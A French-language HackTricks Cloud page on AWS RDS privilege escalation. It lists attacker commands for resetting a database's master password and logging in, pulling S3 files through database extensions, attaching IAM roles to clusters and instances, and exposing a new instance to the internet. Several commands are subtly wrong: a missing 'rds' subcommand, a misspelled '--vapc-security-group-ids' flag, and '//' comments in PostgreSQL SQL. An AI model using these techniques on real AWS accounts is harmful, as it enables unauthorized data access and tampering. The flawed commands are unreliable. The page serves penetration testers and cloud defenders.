 # AWS - RDS Privesc

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>

## RDS - Service de base de données relationnelle

Pour plus d'informations sur RDS, consultez :

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Avec cette autorisation, un attaquant peut **modifier le mot de passe de l'utilisateur principal** et le login à l'intérieur de la base de données :

```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```

{% hint style="warning" %}
Vous devrez être capable de **contacter la base de données** (elles sont généralement accessibles uniquement depuis les réseaux internes).
{% endhint %}

**Impact potentiel :** Trouver des informations sensibles à l'intérieur des bases de données.

### rds-db:connect

Selon la [**documentation**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), un utilisateur ayant cette autorisation pourrait se connecter à l'instance de la base de données.

### Abus des autorisations IAM du rôle RDS

#### Postgresql (Aurora)

{% hint style="success" %}
Si en exécutant **`SELECT datname FROM pg_database;`** vous trouvez une base de données appelée **`rdsadmin`**, vous saurez que vous êtes à l'intérieur d'une **base de données AWS postgresql**.
{% endhint %}

Tout d'abord, vous pouvez vérifier si cette base de données a été utilisée pour accéder à un autre service AWS. Vous pourriez vérifier cela en examinant les extensions installées :

```sql
SELECT * FROM pg_extension;
```

Si vous trouvez quelque chose comme **`aws_s3`**, vous pouvez supposer que cette base de données a **un certain type d'accès sur S3** (il existe d'autres extensions telles que **`aws_ml`** et **`aws_lambda`**).

De plus, si vous avez les autorisations pour exécuter **`aws rds describe-db-clusters`**, vous pouvez voir si le **cluster a un rôle IAM attaché** dans le champ **`AssociatedRoles`**. Si c'est le cas, vous pouvez supposer que la base de données a été **préparée pour accéder à d'autres services AWS**. En fonction du **nom du rôle** (ou si vous pouvez obtenir les **autorisations** du rôle), vous pourriez **deviner** quels sont les accès supplémentaires dont dispose la base de données.

Maintenant, pour **lire un fichier à l'intérieur d'un bucket**, vous devez connaître le chemin complet. Vous pouvez le lire avec :

```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```

Si vous aviez **des identifiants AWS bruts**, vous pourriez également les utiliser pour accéder aux données S3 avec :

```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```

{% hint style="info" %}
Postgresql **n'a pas besoin de modifier une variable de groupe de paramètres** pour pouvoir accéder à S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
À l'intérieur d'un mysql, si vous exécutez la requête **`SELECT User, Host FROM mysql.user;`** et qu'il y a un utilisateur appelé **`rdsadmin`**, vous pouvez supposer que vous êtes à l'intérieur d'une **base de données AWS RDS mysql**.
{% endhint %}

À l'intérieur du mysql, exécutez **`show variables;`** et si des variables telles que **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** ont des valeurs, vous pouvez supposer que la base de données est prête à accéder aux données S3.

De plus, si vous avez les autorisations pour exécuter **`aws rds describe-db-clusters`**, vous pouvez vérifier si le cluster a un **rôle associé**, ce qui signifie généralement un accès aux services AWS).

Maintenant, pour **lire un fichier à l'intérieur d'un bucket**, vous devez connaître le chemin complet. Vous pouvez le lire avec:

```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```

### `rds:AddRoleToDBCluster`, `iam:PassRole`

Un attaquant avec les autorisations `rds:AddRoleToDBCluster` et `iam:PassRole` peut **ajouter un rôle spécifié à une instance RDS existante**. Cela pourrait permettre à l'attaquant d'**accéder à des données sensibles** ou de modifier les données dans l'instance.

```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```

**Impact potentiel** : Accès à des données sensibles ou modifications non autorisées des données dans l'instance RDS.\
Notez que certaines bases de données nécessitent des configurations supplémentaires telles que Mysql, qui doit spécifier le rôle ARN dans les groupes de paramètres également.

### `rds:CreateDBInstance`

Rien qu'avec cette autorisation, un attaquant pourrait créer une **nouvelle instance au sein d'un cluster** qui existe déjà et a un **rôle IAM** attaché. Il ne pourra pas changer le mot de passe de l'utilisateur principal, mais il pourrait exposer la nouvelle instance de base de données à Internet :

```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```

### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Un attaquant avec les autorisations `rds:CreateDBInstance` et `iam:PassRole` peut **créer une nouvelle instance RDS avec un rôle spécifié attaché**. L'attaquant peut ensuite potentiellement **accéder à des données sensibles** ou modifier les données dans l'instance.

{% hint style="warning" %}
Certains prérequis du rôle/profil d'instance à attacher (de [**ici**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Le profil doit exister dans votre compte.
* Le profil doit avoir un rôle IAM que Amazon EC2 a l'autorisation d'assumer.
* Le nom du profil d'instance et le nom du rôle IAM associé doivent commencer par le préfixe `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Impact potentiel**: Accès à des données sensibles ou modifications non autorisées des données dans l'instance RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Un attaquant avec les autorisations `rds:AddRoleToDBInstance` et `iam:PassRole` peut **ajouter un rôle spécifié à une instance RDS existante**. Cela pourrait permettre à l'attaquant d'**accéder à des données sensibles** ou de modifier les données dans l'instance.

{% hint style="warning" %}
L'instance de la base de données doit être en dehors d'un cluster pour cela.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Impact potentiel**: Accès à des données sensibles ou modifications non autorisées des données dans l'instance RDS.

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert de l'équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks:

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
